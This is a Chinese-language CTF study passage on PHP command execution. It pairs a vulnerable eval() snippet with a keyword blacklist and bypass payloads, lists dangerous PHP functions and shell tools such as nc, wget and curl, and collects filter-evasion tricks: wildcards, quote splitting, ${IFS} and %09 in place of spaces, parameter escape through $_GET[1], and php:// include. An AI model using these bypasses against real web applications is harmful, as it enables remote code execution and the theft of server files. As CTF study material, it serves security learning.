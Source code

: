 ## 变量覆盖
```php
if($F = @$_GET['F']){
    if(!preg_match('/system|nc|wget|exec|passthru|netcat/i', $F)){
        eval(substr($F,0,6));
    }else{
        die("6个字母都还不够呀?!");
    }
}
?F=`$F`;空格sleep 3//好像网站确实sleep了一会说明的确执行了命令
``是shell_exec()函数的缩写
先进行substr()函数截断然后去执行eval()函数,即eval("`$F`;空格")
而$F就是我们输入的`$F`;空格sleep 3
即最终效果是eval(`sleep 3`);//注意eval(``),exec,system是shell命令，而且只能输入shell命令，不会在网站显示,system成功则返回命令输出的最后一行
//解决方法
//1.oob
//2.写入文件，用>或|tee
//3.命令盲注 //.被过滤
```
# 九、命令执行
`system($c)`会有回显，只是phpstudy无法显示
```bash
#php函数
include|require
system|exec|passthru|shell_exec #exec("cat /f149_15_h3r3|tee 1");
#命令行命令
bash|sh
nc|netcat|wget|curl|ping
cat|grep|tac|more|od|sort|tail|less|base64|rev|cut|od|strings|tailf|head|nl
```
已知flag在flag.php里
```php
1.注释，如`$v2=/*,$v3=*/` 
2.命令分隔符;如system($c." >/dev/null 2>&1");
还可以用&&,||,&执行前一条命令,如ls||tac
|执行后一条命令
记得特殊符号要url编码
3.过滤flag等关键字
可用通配符*?[]等代替，cat f*代替,
或eval(echo `n''l fl''ag.ph''p`);//两引号分隔在shell中执行会自动忽略
技巧:用tac而不是cat可以不用查看源代码，因破坏了php格式
4.过滤system等可用``代替，eval,``相当于把数据段""变成了代码段
5.过滤空格的代替：
print或echo`cat f*` //echo之间不用加空格
换行符：\n=>%0a //echo%0a`不可用%0a`
回车：\r=>%0d //echo%0d`不可用%0d`
水平制表符:\t=>%09 //`可用`
垂直制表符：\v=>%0b // echo%0b`不可用%0b`
特殊零字符，也可以表示NULL值:\0=>%00
换页键:\f=>%0c //echo%0c`不可用%0c`
重定向读取如`nl<fla''g.php||` //注意不支持通配符
没过滤`$`的话可用tac${IFS}flag.txt
6.参数逃逸 --有很多限制时可以试试
eval($c);//对$c做了限制
$c=eval($_GET[1]);//构造不受限的参数1
$_GET{abs};
7.过滤括号和分号
a.使用包含:c=require或include%0a$_GET[1]?>&1=php:// //过滤),(,;
//最后一句可不用分号,但这样的话必须有闭合标签才行
//eval等函数的括号可以不闭合，只需令c=phpinfo()?>
实际效果：
<?php
```